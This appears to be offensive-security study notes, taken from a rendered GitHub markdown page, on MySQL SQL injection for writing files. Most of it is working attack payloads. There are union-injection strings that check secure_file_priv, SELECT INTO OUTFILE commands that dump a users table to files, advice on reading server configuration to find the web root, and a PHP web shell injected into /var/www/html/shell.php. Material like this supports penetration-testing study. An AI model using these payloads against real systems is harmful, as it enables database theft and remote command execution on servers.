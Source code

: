 ### Write File Privileges

To check:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

Or

```
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

In union inj:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

If empty then can write to any location.

#### SELECT INTO OUTFILE

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

To write output of table to a file:

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

To write anyyyything:

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

**Tip**: Advanced file exports utilize the 'FROM\_BASE64("base64\_data")' function in order to be able to write long/advanced files, including binary data.

**Note**: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load\_file to read the server configuration, like Apache's configuration found at /etc/apache2/apache2.conf, Nginx's configuration at /etc/nginx/nginx.conf, or IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this wordlist for Linux or this wordlist for Windows. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

#### Writing a Web Shell

We can write this : `<?php system($_REQUEST[0]); ?>` In Union injection:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
